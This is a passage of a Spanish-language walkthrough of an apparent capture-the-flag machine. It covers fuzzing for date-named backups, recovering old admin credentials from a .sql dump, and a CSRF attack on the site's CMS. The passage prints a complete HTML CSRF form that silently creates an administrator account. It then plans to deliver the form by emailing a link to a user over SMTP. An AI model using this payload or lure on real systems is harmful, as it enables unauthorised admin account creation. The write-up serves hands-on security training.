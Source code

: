 Si analizamos en detalle que hace, podemos extraer que los backups se guardan con el nombre de la fecha por ejemplo: `30-01-2020.zip`. Por lo que podemos crearnos una *wordlist* personalizada con Python y hacer *fuzzing* en busca de backups antiguos:
![[Pasted image 20240819182304.png]]

Encontramos este backup que si lo analizamos contiene un archivo .sql con un antiguo admin y su contraseña:
![[Pasted image 20240819182438.png]]

Aun así estas credenciales no parecen ser útiles.

Si enumeramos la página manage players podemos ver que el *player* valenka tiene Una descripción peculiar:
![[Pasted image 20240819183727.png]]

## CSRF
Nos dice que es *manager* de varios clientes de `/vip-client-portfolios/?uri=blog` por lo que si accedemos a la web vemos:
![[Pasted image 20240819185111.png]]

Si buscamos con *searchsploit* sobre este CMS obtenemos:
![[Pasted image 20240819184327.png]]

Que se trata de un código html que permite crear un usuario administrador si un administrador accede y da al botón de *submit form*.
```html
<html>
  <body>
    <form action="http://casino-royale.local/vip-client-portfolios/?uri=admin/accounts/create" method="POST">
      <input type="hidden" name="emailAddress" value="adm1n@adm1n.com" />
      <input type="hidden" name="verifiedEmail" value="verified" />
      <input type="hidden" name="username" value="adm1n123" />
      <input type="hidden" name="newPassword" value="adm1n123" />
      <input type="hidden" name="confirmPassword" value="adm1n123" />
      <input type="hidden" name="userGroups[]" value="34" />
      <input type="hidden" name="userGroups[]" value="33" />
      <input type="hidden" name="memo" value="CSRFmemo" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="formAction" value="submit" />
      <input type="submit" value="Submit form" />
    </form>
  </body>
</html>
```


Si enumeramos la web encontramos esta sección:
![[Pasted image 20240819191459.png]]

Como podemos ver podemos enviar un correo mediante el puerto SMTP 25 abierto en la máquina a valenka. Donde supuestamente mirará los links si le especificamos a algún cliente en el subject. Por lo tanto, probamos de enviar un correo con un link al exploit para ver si valenka entra en él y crea un usuario administrador.
![[Pasted image 20240819192854.png]]
![[Pasted image 20240819193058.png]]
